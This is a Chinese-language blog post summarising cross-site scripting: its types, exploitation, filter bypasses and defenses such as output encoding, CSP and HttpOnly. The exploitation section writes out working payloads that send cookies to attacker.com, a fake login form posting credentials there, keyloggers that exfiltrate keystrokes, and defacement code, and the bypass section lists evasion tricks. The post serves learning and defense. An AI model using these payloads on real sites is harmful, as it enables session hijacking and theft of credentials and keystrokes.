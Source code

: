```yaml
---
layout: mypost
title: XSS总结
categories: [Web]
extMath: true
---
```


# XSS总结

## 原理

Web 应用程序将用户输入的数据，未经充分过滤或编码，就直接输出到 HTML 页面中，导致浏览器将用户的输入误当作可执行的脚本来解析和执行。

## 分类

### 反射型

恶意脚本作为**请求的一部分**（如URL参数）发送给服务器，服务器将其“反射”回响应中，浏览器立即执行。**非持久化**，需要诱骗用户点击特定链接。
例如：[`http://example.com/search?q=](http://example.com/search?q=)<script>alert(1)</script>`

### 存储型

恶意脚本被**永久存储**在服务器上（如数据库、评论、留言板）。任何用户访问包含此内容的页面时，脚本都会被自动加载和执行。**危害最大**。
例如：在博客评论区提交恶意评论，之后所有访客都会中招。

### DOM型

漏洞存在于客户端的**JavaScript代码**中，而非服务器端。网站的JS代码**不安全地处理了来自DOM的数据**（如 `document.location.hash`），并将其写入了页面DOM，导致代码执行。
例如：

```bash
// 假设URL是：http://example.com#<img src=x onerror=alert(1)>
var content = document.location.hash.substring(1);
document.getElementById("message").innerHTML = "Welcome, " + content; // 漏洞点

```

## 利用

1. 窃取cookie
    
    获取用户的会话 Cookie（反射XSS+社工，存储XSS），并发送到攻击者的服务器，从而冒充合法用户登录或调取数据。
    
    ```bash
    <script>fetch('http://attacker.com/steal?cookie=' + document.cookie)</script>
    
    <script>new Image().src='http://attacker.com/steal?cookie='+encodeURIComponent(document.cookie)</script>
    
    <img src="x" onerror="this.src='http://attacker.com/steal?cookie='+encodeURIComponent(document.cookie)">
    ```
    
2. 钓鱼
    
     在页面上动态创建一个假的登录框（反射XSS+社工，存储XSS），欺骗用户输入用户名和密码。
    
    ```bash
    <div style="position: fixed; top: 0; left: 0; width: 100%; height: 100%; background: rgba(0,0,0,0.8); z-index: 9999;">
      <div style="position: absolute; top: 50%; left: 50%; transform: translate(-50%, -50%); background: white; padding: 20px; text-align: center;">
        <h3>您的会话已过期，请重新登录</h3>
        <form action="http://attacker.com/phish" method="POST">
          用户名: <input type="text" name="username"><br><br>
          密码: <input type="password" name="password"><br><br>
          <input type="submit" value="登录">
        </form>
      </div>
    </div>
    ```
    
3. 网站篡改
    
    修改页面内容，发布虚假信息，损害网站声誉。
    
    ```bash
    <script>document.body.innerHTML = '<h1>该网站已被黑！</h1>' + document.body.innerHTML</script>
    
    <div style="position: fixed; top: 0; width: 100%; background: red; color: white; text-align: center; z-index: 9999;">
      <strong>安全警告：该站点存在安全漏洞！</strong>
    </div>
    ```
    
4. 键盘记录
    
     监听用户的键盘事件，窃取敏感输入。
    
    ```bash
    <script>
    let log = '';
    document.onkeypress = function(e) {
      log += e.key; // 记录按下的键
      // 每输入10个字符就发送一次数据，避免过于频繁的请求
      if (log.length > 10) {
        new Image().src = 'http://attacker.com/log?k=' + encodeURIComponent(log);
        log = '';
      }
    }
    </script>
    
    ## 实时发送
    <script>
    // 监听所有按键事件（包括退格键、功能键等）
    document.addEventListener('keydown', function(e) {
      fetch('http://attacker.com/log', {
        method: 'POST',
        body: JSON.stringify({ 
          key: e.key, 
          code: e.code,
          time: new Date().toISOString()
        })
      });
    });
    </script>
    ```
    
5. 绕过CSRF限制
    
    也就是用XSS把token获取到后进行CSRF攻击
    
6. 制作XSS蠕虫
    
    假设存在一个存储型XSS，目标一点击后在目标A的账号下发布部署同样的XSS payload，进而进行链式传播。
    

## 绕过

1. **编码绕过**：
    - 对 payload 进行各种编码（HTML实体、URL、JS Unicode、Base64等）。
    - 例：`<script>` -> `&lt;script&gt;` (但可能被解码) 或 `\u003cscript\u003e`
2. **语法混淆**：
    - 利用JS语法特性：`<img src=x onerror=alert(1)>` (最常用)
    - 不使用空格：用`/`或其它字符代替：`onerror=alert(1)`
    - 使用非常规标签或事件：`<svg onload=alert(1)>`, `<details ontoggle=alert(1)>`
    - 大小写混淆：`<ScRiPt>alert(1)</sCrIpT>`
    - 双写绕过：`<scr<script>ipt>alert(1)</script>`
3. **利用JavaScript特性**：
    - 字符串拼接：`"al" + "ert(1)"`
    - 使用 `eval()`、`setTimeout()`、`Function()` 等动态执行函数：`eval('al'+'ert(1)')`
    - 使用反引号执行命令：`alert`1``
4. **伪协议**：
    - `javascript:alert(1)` (常用于 `<a href>` 或 `iframe src`)

## 防御

1. 输入验证
    
    对用户输入进行严格的**白名单**校验（只允许允许的字符、长度、格式），但不要仅依赖黑名单。
    
2. 输出编码/转义
    - **HTML 上下文:** 将 `<`, `>`, `&`, `"`, `'` 分别转义为 `&lt;`, `&gt;`, `&amp;`, `&quot;`, `&#39;`。
    - **JavaScript 上下文:** 在将数据插入到 JS 代码块时，对非字母数字字符进行 `\xHH` 格式的编码。
    - **CSS 上下文:** 对用户数据进行编码，防止注入恶意样式或表达式。
    - **URL 上下文:** 使用 `URLEncoder` 对要放入链接中的参数进行编码。
3. 内容安全策略（**CSP**）
通过 HTTP 头部 `Content-Security-Policy` 告诉浏览器哪些来源的脚本是可信的、可以执行的。
例如：
    
    `Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted.cdn.com;`
    
     只允许加载本域和 `trusted.cdn.com` 的脚本，有效阻止内联脚本和未授权域的脚本执行。
    
4. 设置HTTPOnly
在设置关键 Cookie (如 Session ID) 时，加上 `HttpOnly` 标志。
禁止 JavaScript 通过 `document.cookie` 访问该 Cookie，即使 XSS ，也无法轻易窃取会话。
5. 使用现代web框架
    
    前端：React, Vue, Angular
    
    后端：Django, Ruby on Rails